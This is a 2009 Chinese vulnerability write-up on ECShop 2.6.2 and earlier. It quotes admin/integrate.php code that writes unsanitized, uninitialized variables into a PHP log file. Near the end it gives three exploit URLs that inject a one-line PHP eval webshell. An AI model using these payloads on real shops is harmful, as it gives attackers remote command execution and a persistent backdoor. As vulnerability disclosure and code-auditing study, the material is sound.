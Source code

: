 ```yaml
---
title: ECShop网店系统< =V2.6.2 后台拿webshell
description: ECShop是一款开源免费的网上商店系统。由专业的开发团队升级维护，为您提供及时高效的技术支持，您还可以根据自己的商务特征对ECSHOP进行定制，增加自己商城的特色功能。（官方介绍）ECSHOP前段时间出了个注射漏洞：http://bbs.wolvez.org/topic/67/，拿后台权限应该没有问题，但文章没有提及如何ECShop网店系统<=V2.6.2后台拿webshell。昨天可乐在t00ls.Net上发帖问如何拿shell，无聊中我baidu、google了下，网上貌似没有拿shell的办法。好久没读代码了，无聊中下了ECSHOP最新版（V2.6.2）的源码过来读，很庆幸，给我找到一个可以直接写shell的文件。与注射一样，同样是个变化未初始化导致的问题，于是，同样只能用在register_globals为on的环境下。
date: 2009-04-28 10:11:01
category: 漏洞信息
tags: ['ECShop', 'webshell', '漏洞信息']
post_id: 846
alias: ECShop-V2.6.2-webshell
ViewNums: 3149
---
```


[ECShop](/tags/ECShop)是一款开源免费的网上商店系统。由专业的开发团队升级维护，为您提供及时高效的技术支持，您还可以根据自己的商务特征对ECSHOP进行定制，增加自己商城的特色功能。（官方介绍）

ECSHOP前段时间出了个注射漏洞：<http://bbs.wolvez.org/topic/67/>，拿后台权限应该没有问题，但文章没有提及如何[ECShop网店系统< =V2.6.2 后台拿webshell](/blog/ecshop-v262-webshell)。昨天可乐在t00ls.Net上发帖问如何拿shell，无聊中我baidu、 google了下，网上貌似没有拿shell的办法。好久没读代码了，无聊中下了ECSHOP最新版（V2.6.2）的源码过来读，很庆幸，给我找到一个可以直接写shell的文件。与注射一样，同样是个变化未初始化导致的问题，于是，同样只能用在register_globals为on的环境下。

integrate.php第740行起：

if ($_REQUEST['act'] == 'sync')
{
$size = 100;

......

$tasks = array();
if ($task_del > 0)
{
$tasks[] = array('task_name'=>sprintf($_LANG['task_del'], $task_del),'task_status'=>'<span id="task_del">' . $_LANG['task_uncomplete'] . '<span>');
$sql = "SELECT user_name FROM " . $ecs->table('users') . " WHERE flag = 2";
$del_list = $db->getCol($sql);//$del_list未初始化
}

if ($task_rename > 0)
{
$tasks[] = array('task_name'=>sprintf($_LANG['task_rename'], $task_rename),'task_status'=>'<span id="task_rename">' . $_LANG['task_uncomplete'] . '</span>');
$sql = "SELECT user_name, alias FROM " . $ecs->table('users') . " WHERE flag = 3";
$rename_list = $db->getAll($sql);//$rename_list未初始化
}

if ($task_ignore >0)
{
$sql = "SELECT user_name FROM " . $ecs->table('users') . " WHERE flag = 4";
$ignore_list = $db->getCol($sql);//$ignore_list未初始化
}

......

/* 保存修改日志 */
$fp = @fopen(ROOT_PATH . DATA_DIR . '/integrate_' . $_SESSION['code'] . '_log.php', 'wb');
$log = '';
if (isset($del_list))
{
$log .= '$del_list=' . var_export($del_list,true) . ';';
}
if (isset($rename_list))
{
$log .= '$rename_list=' . var_export($rename_list, true) . ';';
}
if (isset($ignore_list))
{
$log .= '$ignore_list=' . var_export($ignore_list, true) . ';';
}
//未做过滤，直接写log
fwrite($fp, $log);
fclose($fp);

$smarty->assign('tasks', $tasks);
$smarty->assign('ur_here',$_LANG['user_sync']);
$smarty->assign('size', $size);
$smarty->display('integrates_sync.htm');
}$del_list、$rename_list、$ignore_list均没有初始化，于是，均可以直接写shell。

利用方法：

http://www.oldjun.com/admin/integrate.php?act=sync&del_list=<?php%20eval($_POST[cmd])?>
http://www.oldjun.com/admin/integrate.php?act=sync&rename_list=<?php%20eval($_POST[cmd])?>
http://www.oldjun.com/admin/integrate.php?act=sync&ignore_list=<?php%20eval($_POST[cmd])?>三个链接，随便输入一个就可以了，生成http://www.oldjun.com/data/integrate__log.php，就是一句话小马了~

From:[www.oldjun.com](http://www.oldjun.com/)

